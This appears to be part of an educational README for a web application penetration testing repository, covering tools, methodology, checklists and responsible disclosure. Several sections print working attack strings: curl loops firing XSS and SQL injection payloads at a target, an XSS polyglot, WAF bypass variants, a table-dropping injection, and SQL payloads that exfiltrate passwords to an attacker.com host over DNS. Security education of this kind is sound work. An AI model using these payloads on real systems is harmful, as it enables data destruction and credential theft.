- **Burp Suite Professional** - Manual testing proxy
- **OWASP WebGoat** - Vulnerable application for practice
- **Damn Vulnerable Web Application (DVWA)** - Practice environment
- **Postman** - API testing tool

### Wordlists & Payloads
- **SecLists** - Security testing wordlists
- **PayloadsAllTheThings** - Payload repository
- **FuzzDB** - Attack patterns database
- **OWASP Testing Guide** - Testing methodology

### Custom Scripts
```bash
# XSS Testing Script
#!/bin/bash
payloads=("<script>alert('XSS')</script>" "")
for payload in "${payloads[@]}"; do
    curl -X POST -d "input=$payload" http://target.com/search
done

# SQL Injection Testing
#!/bin/bash
sqlpayloads=("' OR '1'='1' --" "' UNION SELECT 1,2,3 --")
for payload in "${sqlpayloads[@]}"; do
    curl "http://target.com/login?username=admin&password=$payload"
done
```

---

## 📊 Vulnerability Assessment Matrix

| Vulnerability | CVSS Score | Exploitability | Impact | Detection Difficulty |
|---------------|------------|----------------|---------|---------------------|
| SQL Injection | 9.0 | High | Critical | Medium |
| XSS | 7.5 | High | High | Easy |
| CSRF | 6.5 | Medium | Medium | Medium |
| SSRF | 8.0 | Medium | High | Hard |
| JWT Misconfiguration | 7.0 | Medium | High | Medium |
| Command Injection | 9.5 | High | Critical | Medium |
| File Upload | 8.5 | High | Critical | Easy |

---

## 🔍 Research Methodology

### Phase 1: Information Gathering
1. **Target Analysis**
   - Domain enumeration
   - Technology identification
   - Service discovery
   - Architecture analysis

2. **Attack Surface Mapping**
   - Input parameter identification
   - Authentication mechanisms
   - Session management
   - API endpoints

### Phase 2: Vulnerability Discovery
1. **Automated Testing**
   - Vulnerability scanners
   - Fuzzing tools
   - Static analysis
   - Dynamic analysis

2. **Manual Testing**
   - Logic flaw identification
   - Business logic testing
   - Custom payload development
   - Edge case analysis

### Phase 3: Exploitation & Impact
1. **Proof of Concept Development**
   - Exploit creation
   - Payload refinement
   - Bypass technique development
   - Automation scripting

2. **Impact Assessment**
   - Data exposure analysis
   - System compromise evaluation
   - Business impact calculation
   - Risk rating assignment

---

## 📈 Security Testing Checklist

### Pre-Testing Phase
- [ ] Obtain proper authorization
- [ ] Define scope and limitations
- [ ] Set up testing environment
- [ ] Prepare testing tools
- [ ] Document baseline security posture

### Testing Phase
- [ ] Perform reconnaissance
- [ ] Conduct vulnerability assessment
- [ ] Execute manual testing
- [ ] Validate findings
- [ ] Document evidence

### Post-Testing Phase
- [ ] Compile comprehensive report
- [ ] Provide remediation guidance
- [ ] Conduct risk assessment
- [ ] Present findings to stakeholders
- [ ] Support remediation efforts

---

## 🚀 Advanced Attack Techniques

### 1. Polyglot Payloads
```javascript
// XSS + SQL Injection Polyglot
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>
```

### 2. WAF Bypass Techniques
```javascript
// Case variation
<ScRiPt>alert(1)</ScRiPt>

// Encoding
%3Cscript%3Ealert(1)%3C/script%3E

// HTML entities
&lt;script&gt;alert(1)&lt;/script&gt;

// Unicode
\u003cscript\u003ealert(1)\u003c/script\u003e
```

### 3. Advanced SQL Injection
```sql
-- Stacked queries
'; DROP TABLE users; --

-- Out-of-band data exfiltration
'; SELECT LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users LIMIT 1), '.attacker.com\\test.txt')); --

-- DNS exfiltration
'; SELECT LOAD_FILE(CONCAT('\\\\', (SELECT HEX(password) FROM users WHERE id=1), '.dns.attacker.com\\test')); --
```

---

## 📚 Educational Resources

### Books
- "The Web Application Hacker's Handbook" by Dafydd Stuttard
- "OWASP Testing Guide v4"
- "SQL Injection Attacks and Defense" by Justin Clarke
- "XSS Attacks: Cross Site Scripting Exploits and Defense"

### Online Resources
- OWASP Top 10
- PortSwigger Web Security Academy
- HackerOne Hacktivity
- Bug Bounty Platforms

### Practice Environments
- WebGoat
- Mutillidae
- bWAPP

---

## 🔒 Responsible Disclosure

### Guidelines
1. **Authorization**: Only test applications you own or have explicit permission to test
2. **Scope**: Stay within defined testing boundaries
3. **Impact**: Minimize potential damage during testing
4. **Documentation**: Maintain detailed records of testing activities
5. **Reporting**: Follow responsible disclosure practices

### Disclosure Timeline
1. **Day 0**: Vulnerability discovered
2. **Day 1-7**: Initial report to vendor
3. **Day 30**: Follow-up if no response
4. **Day 90**: Public disclosure consideration
5. **Day 180**: Full public disclosure

---

## 📞 Contact Information

**Security Researcher:** S. Tamilselvan  
**Specialization:** Web Application Security, Penetration Testing  
**Research Focus:** Advanced Attack Methodologies & Defense Strategies  

---

## ⚠️ Disclaimer

This repository is created for educational and research purposes only. The information, tools, and techniques described herein should only be used on systems you own or have explicit permission to test. 

**Important Notes:**
- Unauthorized access to computer systems is illegal
- Always obtain proper authorization before testing
- Use this information responsibly and ethically
- The author is not responsible for any misuse of this information
- This research is intended to improve security awareness and defense capabilities

**Legal Compliance:**
- Follow all applicable laws and regulations
- Respect privacy and confidentiality
- Adhere to responsible disclosure practices
- Maintain professional ethics in security research

---

## 📄 License

This project is licensed under the MIT License - see the [LICENSE](https://cyberwolf-career-guidance.web.app/) file for details.

---

**Last Updated:** December 2025  
**Version:** 1.0  
**Maintained by:** S. Tamilselvan - Security Researcher

---

**Security is not a product, but a process.**
## [Advance Informations](advance.md) ##